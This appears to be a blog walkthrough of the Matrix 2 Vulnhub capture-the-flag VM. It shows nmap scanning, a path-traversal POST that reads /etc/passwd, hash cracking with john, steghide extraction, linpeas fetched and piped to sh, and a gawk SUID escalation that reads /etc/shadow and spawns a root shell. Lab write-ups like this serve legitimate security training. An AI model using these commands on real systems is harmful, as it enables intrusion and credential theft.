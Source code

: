 ![Matrix: 2 Vulnhub Walkthrough](https://www.rootandbeer.com/content/images/size/w1200/2024/07/d87qld0-696e1144-5c76-4302-a586-1219749f10bb.jpg)

[https://www.vulnhub.com/entry/matrix-2,279/](https://www.vulnhub.com/entry/matrix-2,279/?ref=rootandbeer.com)

Description: Matrix v2.0 is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.

Difficulty: Intermediate

Flags: Your Goal is to get root and read /root/flag.txt

Networking:

- DHCP: Enabled
- IP Address: Automatically assigned

Hint: Follow your intuitions ... and enumerate!

**Run [[nmap]] -A scan against all TCP ports:**

```bash
└─$ nmap -A -p- 192.168.5.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 22:21 EDT
Nmap scan report for 192.168.5.106
Host is up (0.0030s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome in Matrix v2 Neo
1337/tcp  open  ssl/http           nginx
|_http-title: 401 Authorization Required
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Welcome to Matrix 2
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
12320/tcp open  ssl/http           ShellInABox
|_http-title: Shell In A Box
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
12321/tcp open  ssl/warehouse-sss?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
12322/tcp open  ssl/http           nginx
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nginx-php-fastcgi
| Subject Alternative Name: DNS:nginx-php-fastcgi
| Not valid before: 2018-12-07T14:14:44
|_Not valid after:  2028-12-07T14:14:44
| tls-nextprotoneg: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_file_view.php
|_http-title: Welcome in Matrix v2 Neo
```

**Checking out** http://192.168.5.106:12322/file_view.php **returned a blank page. In the page source it shows**

> _<!– Error file parameter missing..!!! -->_

**Using Burpsuite we can see that the header information is using a GET request instead of a POST.**

![](https://www.rootandbeer.com/content/images/2024/07/data-src-image-536b3e0d-8e0a-460e-92da-4bbd506de35e.png)


>[!caution]
>Had trouble converting GET to a POST request using Burp Suite, not sure why but it wasn't changing it to POST so had to use _curl_ instead.


**Using curl lets us make a _post_ request**

```bash
└─$ curl -X POST -k https://192.168.5.106:12322/file_view.php -d "file=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
...
n30:x:1000:1000:Neo,,,:/home/n30:/bin/bash
testuser:x:1001:1001::/home/testuser:
```

>[!hint] Note Usernames
>**testuser & n30_**

**Login to ShellInABox with** _testuser:testuser_ **@** https://192.168.5.106:12320/

**Check web root directories for files:**

```bash
└─$ ls -lah /usr/share/adminer/adminer/                                                                                                                                              
total 28K                                                                                                                                                                          
drwxr-xr-x 4 root root 4.0K Dec 14  2018 .                                                                                                                                         
drwxr-xr-x 3 root root 4.0K Dec  8  2018 ..                                                                                                                                        
drwxr-xr-x 2 root root 4.0K Dec  8  2018 css                                                                                                                                       
-rw-r--r-- 1 root root  196 Dec  8  2018 file_view.php                                                                                                                             
-rw-r--r-- 1 root root 3.0K Dec 14  2018 index.php                                                                                                                                 
drwxr-xr-x 2 root root 4.0K Dec  8  2018 js                                                                                                                                        
-rw-r--r-- 1 root root   38 Dec  8  2018 robots.txt

└─$ ls -lah /var/www/
total 48K                                                                                                                                                                          
drwxr-xr-x  4 root root 4.0K Dec 14  2018 .
drwxr-xr-x 12 root root 4.0K Dec  7  2018 ..
drwxr-xr-x  4 root root 4.0K Dec 14  2018 4cc3ss
-rw-r--r--  1 root root  25K Dec  8  2018 h1dd3n.jpg
-rw-r--r--  1 root root 3.6K Dec 14  2018 index.php                                                                                                                                
drwxr-xr-x  2 root root 4.0K Dec  8  2018 p4ss
```

**Obtain** _Tr1n17y_ **user password hash from** _.htpasswd_ **file:**

```bash
└─$ cat /var/www/p4ss/.htpasswd                                                                                                                                                      
Tr1n17y:$apr1$7tu4e5pd$hwluCxFYqn/IHVFcQ2wER0
```

**Crack** _Tr1n17y_ **password hash:**

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --rules htpasswd 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (Tr1n17y)
1g 0:00:00:01 DONE (2024-07-14 21:42) 0.7407g/s 14791p/s 14791c/s 14791C/s checkmate..jaleesa
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

**Navigate to:** https://192.168.5.106:1337/ – **note** _n30_ **is in bright red font.. could this be a password?**

![](https://www.rootandbeer.com/content/images/2024/07/data-src-image-1a9a830b-5831-41a3-8e25-022a50f69f56.jpeg)

**Download hidden jpeg (noted from web root directory listing above):** https://192.168.5.106:1337/h1dd3n.jpg

**Install steghide on Kali and run it against hidden jpeg, using** _n30_ **as password:**

```bash
└─$ sudo apt install steghide

└─$ steghide extract -sf h1dd3n.jpg 
Enter passphrase: n30
wrote extracted data to "n30.txt".
                                                                                                                                            
└─$ cat n30.txt 
P4$$w0rd
```

**Login to ShellInABox with** _n30:P4\$\$w0rd_ **@** https://192.168.5.106:12320/

**Run [[linpeas]]**
```bash
$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

**Of note in [[Linpeas]] output - morpheus SUID binary in** _/usr/bin_:

```bash
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                 
╚════════════════════════════════════╝                                                                                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                   
strace Not Found                                                                                                                                                                   
You own the SUID file: /tmp/bash
-rwsr-xr-x 1 root root 11K Jan 22  2017 /usr/lib/authbind/helper
-rwsr-xr-x 1 root root 431K Aug 21  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 59K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-r-sr-x--- 1 root n30 647K Dec  8  2018 /usr/bin/morpheus (Unknown SUID binary!)
```

_/usr/bin/morpheus_ **appears to be the gawk binary:**

```bash
n30@Matrix_2 ~$ /usr/bin/morpheus 
Usage: morpheus [POSIX or GNU style options] -f progfile [--] file ...                                                                                                             
Usage: morpheus [POSIX or GNU style options] [--] 'program' file ...                                                                                                               
POSIX options:          GNU long options: (standard)                                                                                                                               
...                                                                                                                                    
                                                                                                                                                                                
To report bugs, see node `Bugs' in `gawk.info', which is                                                                                                                           
section `Reporting Problems and Bugs' in the printed version.                                                                                                                      
                                                                                                                                                                                   
gawk is a pattern scanning and processing language.                                                                                                                                
By default it reads standard input and writes standard output.                                                                                                                     
                                                                                                                                                                                   
Examples:                                                                                                                                                                          
        gawk '{ sum += $1 }; END { print sum }' file                                                                                                                               
        gawk -F: '{ print $1 }' /etc/passwd      
```

**Use the gawk SUID escalation vector to read** _/etc/shadow_**, as shown in GTFO bins (**[**https://gtfobins.github.io/gtfobins/gawk/**](https://gtfobins.github.io/gtfobins/gawk/?ref=rootandbeer.com)**)**

```bash
n30@Matrix_2 ~$  LFILE=/etc/shadow                                                                                                                                                                     
n30@Matrix_2 ~$ /usr/bin/morpheus '//' "$LFILE"
root:$6$d6i7/gdA$w/VkPrhMPBcRgaelZs0gwuugQ0M6MLxj8qSPjCv6zzdHIJwPmA1NKBn8LBHdRiGIjz3HyCFdVmD.nq0yJZvh90:17878:0:99999:7:::                                                         
...
```

**Tried to crack this password hash with** _rockyou.txt_ **but had no success**

**Use the gawk escalation vector to spawn a root shell, as shown in GTFO bins (**[**https://gtfobins.github.io/gtfobins/gawk/**](https://gtfobins.github.io/gtfobins/gawk/?ref=rootandbeer.com)**):**

```bash
n30@Matrix_2 ~$ /usr/bin/morpheus 'BEGIN {system("/bin/sh")}'                                                                                                                      
# id                                                                                                                                                                               
uid=1000(n30) gid=1000(n30) euid=0(root) groups=1000(n30)
```

**Cat the flag in** /root**:**

```bash
# cat /root/flag.txt                                                                                                                                                               
╦ ╦┌─┐┬ ┬┬─┐┌─┐  ┌─┐┌─┐┌─┐┌┬┐┌─┐┬─┐  ┌┬┐┬ ┬┌─┐┌┐┌  ┌┬┐┬ ┬┬┌─┐                                                                                                                      
╚╦╝│ ││ │├┬┘├┤   ├┤ ├─┤└─┐ │ ├┤ ├┬┘   │ ├─┤├─┤│││   │ ├─┤│└─┐                                                                                                                      
 ╩ └─┘└─┘┴└─└─┘  └  ┴ ┴└─┘ ┴ └─┘┴└─   ┴ ┴ ┴┴ ┴┘└┘   ┴ ┴ ┴┴└─┘o                                                                                                                     
╔╦╗┌─┐┌┐┌┌┬┐  ┌┬┐┬ ┬┬┌┐┌┬┌─  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐                                                                                                                                  
 ║║│ ││││ │    │ ├─┤││││├┴┐  └┬┘│ ││ │  ├─┤├┬┘├┤                                                                                                                                   
═╩╝└─┘┘└┘ ┴    ┴ ┴ ┴┴┘└┘┴ ┴   ┴ └─┘└─┘  ┴ ┴┴└─└─┘┘                                                                                                                                 
┬┌─┌┐┌┌─┐┬ ┬  ┬ ┬┌─┐┬ ┬  ┌─┐┬─┐┌─┐                                                                                                                                                 
├┴┐││││ ││││  └┬┘│ ││ │  ├─┤├┬┘├┤                                                                                                                                                  
┴ ┴┘└┘└─┘└┴┘   ┴ └─┘└─┘  ┴ ┴┴└─└─┘o                                                                                                                                                
   ╔╦╗┌─┐┬─┐┌─┐┬ ┬┌─┐┬ ┬┌─┐                                                                                                                                                        
───║║║│ │├┬┘├─┘├─┤├┤ │ │└─┐                                                                                                                                                        
   ╩ ╩└─┘┴└─┴  ┴ ┴└─┘└─┘└─┘                                                                                                                                                        
╔═╗╦╔═╔═╗                                                                                                                                                                          
╠═╣╠╩╗╠═╣                                                                                                                                                                          
╩ ╩╩ ╩╩ ╩                                                                                                                                                                          
┬ ┬┌┐┌┬┌─┌┐┌┌─┐┬ ┬┌┐┌┌┬┐┌─┐┬  ┬┬┌─┐┌─┐                                                                                                                                             
│ ││││├┴┐││││ │││││││ ││├┤ └┐┌┘││  ├┤ 64                                                                                                                                           
└─┘┘└┘┴ ┴┘└┘└─┘└┴┘┘└┘─┴┘└─┘ └┘ ┴└─┘└─┘  
```